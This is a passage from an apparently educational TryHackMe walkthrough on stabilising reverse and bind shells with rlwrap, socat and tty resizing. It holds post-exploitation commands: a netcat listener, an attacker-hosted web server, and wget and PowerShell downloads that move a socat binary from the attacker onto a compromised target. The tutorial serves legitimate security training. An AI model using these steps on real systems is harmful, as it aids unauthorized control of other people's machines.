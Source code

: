 ![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/a5c92ef1-8752-4ec0-b1ea-d54f8f4f94d8)

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

## Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with `sudo apt install rlwrap`.

To use rlwrap, we invoke a slightly different listener:

`rlwrap nc -lvnp <port>`

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use `stty raw -echo; fg` to stabilise and re-enter the shell.

## Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/cb8741d6-4e58-4e2b-9ef1-a362cbb35b68)

Next, in your reverse/bind shell, type in:

`stty rows <number>` and `stty cols <number>`

Filling in the numbers you got from running the command in your own terminal.
